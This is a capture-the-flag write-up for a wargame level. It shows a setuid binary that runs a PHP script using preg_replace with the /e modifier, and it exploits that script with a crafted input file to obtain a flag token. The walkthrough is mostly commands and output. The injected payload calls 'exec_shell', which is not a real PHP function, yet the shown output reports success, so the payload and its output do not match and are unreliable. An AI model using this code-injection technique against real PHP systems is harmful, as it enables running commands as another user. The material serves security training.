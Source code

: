 ## LEVEL 06

---

In this level, we have two files:

```shell
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Both of these files have the owner `flag06`, and therefore, they can run `getflag`.

However, the `level06` file has special permissions.

```shell
$ getfacl level06
# file: level06
# owner: flag06
# group: level06
# flags: s--
user::rwx
group::---
group:level06:r-x
mask::r-x
other::---
```

So we can execute this file.

Now I want to know what this executable does.

```shell
$ gdb -q level06
(gdb) disas main
[...]
0x08048514 <+196>:	call   0x8048430 <execve@plt>
[...]
(gdb) x/32s 0x80487d5
0x80487d5:	 "/usr/bin/php"
0x80487e2:	 "/home/user/level06/level06.php"
```

Now I know that this executable executes the file `level06.php`. Now, what does this file do?

```shell
$ cat level06.php
#!/usr/bin/php
<?php
    function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
    }
    function x($y, $z) {
        $a = file_get_contents($y); // get the file contents from $y
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // replace [x...] with y("")
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
    }
    $r = x($argv[1], $argv[2]);
    print $r;
?>
```

This PHP script has a vulnerability with the /e modifier. This means that when `preg_replace` is called, the second parameter will be replaced and executed.

For example:

```
preg_replace(..., ..., '"[x salut]"') => "salut" and salut will execute like a script.
```

So I want to execute `{${exec_shell(getflag)}}`, so the input must be `[x {${exec_shell(getflag)}}]`.

```shell
$ echo '[x {${exec_shell(getflag)}}]' > /tmp/input
$ ./level06 /tmp/input
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

---

*Source:*

*https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex*

*https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4*